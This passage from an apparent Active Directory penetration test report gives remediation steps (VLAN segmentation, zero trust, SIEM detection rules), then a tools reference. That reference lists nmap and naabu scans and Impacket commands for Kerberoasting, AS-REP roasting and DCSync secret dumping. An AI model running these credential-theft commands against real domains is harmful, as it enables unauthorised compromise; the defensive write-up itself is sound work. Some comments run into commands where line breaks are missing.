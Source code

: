 **Network Segmentation:**

```
VLAN 10: Domain Controllers (192.168.20.10-12)
VLAN 20: SQL Servers (192.168.20.22-23)
VLAN 30: Client Networks
Firewall Rules: Strict port restrictions between VLANs
```

### 11.3 Langfristig (90+ Tage)

**Zero Trust Architecture:**
- Conditional Access Policies
- Multi-Factor Authentication (MFA)
- Privileged Access Management (PAM)

**Enhanced Monitoring:**

```yaml
# Example SIEM Rules- rule: Kerberos TGS Request Anomaly  condition: TGS requests > 100/hour from single source  action: Alert + Block- rule: Anonymous LDAP Bind  condition: LDAP Bind with empty credentials  action: Alert + Log
```

---

## 12. Tools & Techniques Reference

### 12.1 Reconnaissance Tools

**Nmap:**

```bash
# TCP SYN Scannmap -sS -sV -sC -O 192.168.20.0/24
# UDP Scannmap -sU --top-ports 1000 192.168.20.0/24
# Specific service scansnmap --script ldap-* 192.168.20.10-12
nmap --script smb-* 192.168.20.0/24
nmap --script ms-sql-* 192.168.20.22-23
```

**Naabu (Faster Port Scanner):**

```bash
# AD-specific portsnaabu -list targets.txt -p 53,88,135,139,389,445,636,1433,3268,3269,3389,5985,5986
# Top ports with threadingnaabu -list targets.txt -top-ports 1000 -rate 1000 -c 25
```

### 12.2 Active Directory Tools

**Impacket Suite:**

```bash
# KerberoastingGetUserSPNs.py domain/user:pass -dc-ip DC_IP -outputfile kerberoast.txt
# AS-REP RoastingGetNPUsers.py domain/ -dc-ip DC_IP -usersfile users.txt -outputfile asrep.txt
# DCSyncsecretsdump.py domain/user:pass@DC_IP
```
